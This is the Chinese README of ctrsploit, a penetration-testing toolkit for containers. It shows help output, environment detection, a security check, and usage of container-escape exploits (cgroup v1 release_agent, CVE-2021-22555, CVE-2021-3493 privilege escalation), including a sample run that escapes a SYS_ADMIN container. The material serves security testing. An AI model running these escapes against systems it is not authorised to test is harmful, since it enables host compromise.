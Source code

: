# ctrsploit: 一个容器场景自动化渗透测试工具

[English Version](./README.md)

ctrsploit 读作container sploit

## 为什么我们需要ctrsploit
[这里](https://github.com/ctrsploit/ctrsploit/discussions/11)有详细解释

## Pre-Built Release

https://github.com/ctrsploit/ctrsploit/releases

## Usage

### Quick-Start

```
wget -O ctrsploit https://github.com/ctrsploit/ctrsploit/releases/download/v0.4/ctrsploit_linux_amd64 && chmod +x ctrsploit
./ctrsploit --help
NAME:
   ctrsploit - A penetration toolkit for container environment

ctrsploit is a command line ... //TODO


USAGE:
   ctrsploit [global options] command [command options] [arguments...]

COMMANDS:
   auto, a     auto gathering information, and detect vuls, and exploit // TODO
   exploit, e  run a exploit
   env, e      gather information // TODO
   help, h     Shows a list of commands or help for one command

GLOBAL OPTIONS:
   --lang value  language for the greeting (default: "english")
   --help, -h    show help (default: false)
```

### 信息收集

usage

```
root@ctr:/# ./ctrsploit env
NAME:
   ctrsploit env - gather information

USAGE:
   ctrsploit env command [command options] [arguments...]

COMMANDS:
   where, w        detect whether you are in the container, and which type of the container
   graphdriver, g  detect graphdriver type and extend information
   cgroups, c      gather cgroup information
   help, h         Shows a list of commands or help for one command

OPTIONS:
   --help, -h  show help (default: false)
```

查看当前是否在容器内，在何容器内：

```
root@ctr:/# ./ctrsploit  env  w
INFO[0000] ===========Docker=========
.dockerenv exists: ✔
rootfs contains 'docker': ✔
cgroup contains 'docker': ✘
the mount source of /etc/hosts contains 'docker': ✔
hostname match regex ^[0-9a-f]{12}$: ✔
=> is in docker: ✔
INFO[0000] ===========k8s=========
/var/run/secrets/kubernetes.io exists: ✘
hostname match k8s pattern: ✘
the mount source of /etc/hosts contains 'pods': ✘
cgroup contains 'kubepods': ✘
=> is in k8s: ✘ 
```

### 漏洞利用

```
root@2aa13a052102:/# ./ctrsploit e
NAME:
   ctrsploit exploit - run a exploit

USAGE:
   ctrsploit exploit command [command options] [arguments...]

COMMANDS:
   cgroupv1-release_agent, ra                       escape tech by using the notify_on_release of cgroup v1
   cgroupv1-release_agent-unknown_rootfs, ra3       escape tech by using the notify_on_release of cgroup v1 without known rootfs
   help, h                                          Shows a list of commands or help for one command

OPTIONS:
   --help, -h  show help (default: false)

```

例如: 使用'cgroupv1-release_agent'技术逃逸:

```
root@host # docker run -ti --rm --security-opt="apparmor=unconfined" --cap-add="sys_admin" busybox
root@ctr # wget -O ctrsploit https://github.com/ctrsploit/ctrsploit/releases/download/v0.4/ctrsploit_linux_amd64 && chmod +x ctrsploit
root@ctr # ./ctrsploit e ra -c "cat /etc/hostname"
```

### 安全检查
在容器内执行`ctrsploit checksec`或执行单独的二进制文件`checksec`

```
[root@ctr ~]# /checksec_linux_amd64 
===========Seccomp=========
kernel supported: ✔
seccomp enabled in current container: ✘

===========Apparmor=========
Kernel Supported: ✘
Container Enabled: ✘

===========Cgroups=========
is cgroupv1: ✔
is cgroupv2: ✘

------sub systems-------
["perf_event" "memory" "net_cls" "cpuset" "blkio" "hugetlb" "files" "cpu" "cpuacct" "pids" "rdma" "freezer" "devices" "net_prio"]

--------top level subsystem----------
["rdma"
```

## 详细信息

### env

| 子命令 | 简写 | 描述 |
| --- | --- | --- |
| [where](./env/where) | w | 检测你是否在容器内，在何种类型的容器内 |
| [graphdriver](./env/graphdriver) | g | 检测graphdriver类型和扩展信息 |
| [cgroups](./env/cgroups) | c | 收集cgroup信息 |
| [capability](./env/capability) | cap | 显示pid为1的进程和当前进程的capability |
| [seccomp](./env/seccomp) | s | 显示seccomp信息 |
| [apparmor](./env/apparmor) | a | 显示apparmor信息 |

### exploit

| exploit | 缩写 | 简述 |
| --- | --- | --- |
| [cgroupv1-release_agent](./exploit/cgroupv1-release_agent) | ra | 利用cgroup v1的notify_on_release功能的逃逸技术 |
| [cgroupv1-release_agent-unknown_rootfs](./exploit/cgroupv1-release_agent-unknown_rootfs) | ra3 | 在不知道rootfs在宿主机路径时，利用cgroup v1的notify_on_release功能的逃逸技术 |
| [cve-2021-22555_ubuntu18.04](./exploit/CVE-2021-22555_ubuntu18.04) | 22555 | 利用CVE-2021-22555的逃逸技术 (ubuntu18.04) |

### helper
| helper | 缩写 | description |
| --- | --- | --- |
| [cve-2021-3493](./helper/cve-2021-3493) | ubuntu-overlayfs-pe,3493 | Ubuntu OverlayFS 本地提权 |

### checksec
在容器内执行`ctrsploit checksec`或执行单独的二进制文件`checksec`